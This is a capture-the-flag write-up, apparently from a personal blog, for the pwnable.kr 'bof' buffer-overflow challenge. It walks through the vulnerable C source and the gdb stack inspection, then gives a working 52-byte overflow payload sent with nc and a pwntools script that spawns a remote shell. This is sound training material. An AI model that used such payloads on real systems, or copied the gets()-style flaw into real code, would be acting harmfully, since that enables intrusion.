 ﻿---
layout: post
title: pwnable.kr - bof
categories: pwn
tags : [Linux, Binary Exploitation,Buffer Overflow, code analysis, Exploit Development, c, Python]
image: pwn/bof/0.png
---

<hr>
### Introduction 
#### Hey guys it's been a long time since my [first pwn write-up](https://0xrick.github.io/pwn/fd/),  today I'll write about another challenge from [pwnable.kr](https://pwnable.kr) called bof. It was a simple easy buffer overflow challenge (You can also check [these](/categories/#binary-exploitation)), by overwriting a variable we can get a shell. I'll also write a small exploit with `pwntools` that spawns a shell automatically.
![](/images/pwn/bof/0.png)
<hr>
### Challenge Description 
```
Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?

Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c

Running at : nc pwnable.kr 9000
```
#### Pretty straightforward, we have the vulnerable binary, its source code and the port where it's running. 
![](/images/pwn/bof/1.png)
<hr>
### Code Analysis 
#### Let's take a look at the code :
![](/images/pwn/bof/2.png)
```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```
#### There are two functions, the main function and another function called `func()`
#### `func()`:
```
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
```
#### Breakdown :
#### The function takes a variable called `key`, it starts by creating a variable called `overflowme` and sets a buffer of 32 chars for it : `char overflowme[32];`
#### Then it prints `overflow me :` (`printf("overflow me : ");`)  and waits for our input which will be saved in the variable `overflowme` (`gets(overflowme);`)
#### After that there's an if statement that checks if the variable `key` is equal to `0xcafebabe` (`if(key == 0xcafebabe){`). If that's true it will spawn a shell (`system("/bin/sh");`), if `key` is equal to anything else it will print `Nah..` (`printf("Nah..\n");`)
<br>
#### `main()` :
```
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
```
#### Basically what the main function is doing is just calling the function `func()` giving `key` the value of `0xdeadbeef`
<br>
#### So we need to make `key` equal to `0xcafebabe` instead of `0xdeadbeef` to make it spawn a shell. We control `overflowme` but we don't control `key`. If we can cause a buffer overflow we will be able to overwrite `key`, and obviously `overflowme` is vulnerable.
<br>
<hr>
### Examining the Binary, Exploitation
#### I ran the program and tested it a couple of times. First one with a short input :
![](/images/pwn/bof/3.png)
#### Second one with a longer input and it crashed:
![](/images/pwn/bof/4.png)
#### Important thing to note here, we don't want to know the offset or where the program exactly crashes. This is because we don't need to overwrite `EIP`, we need to overwrite a variable's value and that's located on the stack. So giving the program a pattern and finding the offset won't help because we need to know where `0xdeadbeef` is located on the stack.
#### It's time for `gdb`. I started `gdb` and created a break point at `main` (`break main`) then I started the program (`r`) : 
![](/images/pwn/bof/5.png)
#### It stopped at the break point. We need to disassemble the function `func()` to get the address of the compare instruction that compares between the value of `key` and `0xcafebabe` to set another break point there and look at the stack.
`disas func`
![](/images/pwn/bof/6.png)
#### We can see the [`cmpl` (Compare Logical)](https://www.ibm.com/support/knowledgecenter/en/ssw_aix_72/com.ibm.aix.alangref/idalangref_comp_logical_inst.htm) instruction at `0x0000654`, Lets set a break point exactly before it :
`break *0x80000654`
![](/images/pwn/bof/7.png)
#### Now let's continue the execution (`c`) and wait for our break point.
![](/images/pwn/bof/8.png)
#### I gave it a short input because we don't need to crash it and overwrite stuff on the stack, we just need to look at the stack during a normal execution to locate `0xdeadbeef`.
#### After hitting the second break point let's look at the stack :
`x/50wx $esp`
![](/images/pwn/bof/9.png)
#### `0xdeadbeef` appears at the first row in front of `0xbffff2e0` and our input starts to appear at the last row in front of `0xbffff2a0`. We can locate the distance between our input and `0xdeadbeef` easily, each hex value represents 4 chars (`0x41414141 == AAAA`) and we have exactly 13 of them before `0xdeadbeef` (`1 + 4 + 4 + 4`). 
![](/images/pwn/bof/10.png)
#### We need to give the program exactly 52 chars then `0xcafebabe` and eventually `0xdeadbeef` will be overwritten. 
#### Let's try it, I used python to print the payload in a file then I piped that file to the `nc` connection :
`python -c "print 'A' * 52 + '\xbe\xba\xfe\xca'" > ./payload`
<br>
<br>
`(cat payload && cat) | nc pwnable.kr 9000`
![](/images/pwn/bof/11.png)
#### Pwned !
<br>
<hr>
### Writing an Exploit with pwntools
#### One of the cool things about `pwntools` is the simplicity, combined with the simplicity of this exploit will make it just 4 lines of code. 
#### First thing we need to do is to import `pwntools` : `from pwn import *`
#### We need to store our payload in a variable : `payload = 'A' * 52 + '\xbe\xba\xfe\xca'`
#### Then we need to initiate the connection and assign a variable for it : `shell = remote('pwnable.kr' ,9000)`
#### After that we will send the payload : `shell.send(payload)`
#### And finally we can interact with our shell : `shell.interactive()`
![](/images/pwn/bof/12.png)
```
#!/usr/bin/python
from pwn import *

payload = 'A' * 52 + '\xbe\xba\xfe\xca'
shell = remote('pwnable.kr',9000)
shell.send(payload)
shell.interactive()
```
![](/images/pwn/bof/13.png)
#### Pwned again !
#### That's it , Feedback is appreciated !
#### Don't forget to read the [other write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter for awesome resources [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
#### Previous pwn write-up : [pwnable.kr - fd](/pwn/fd/)
<br>
<hr>
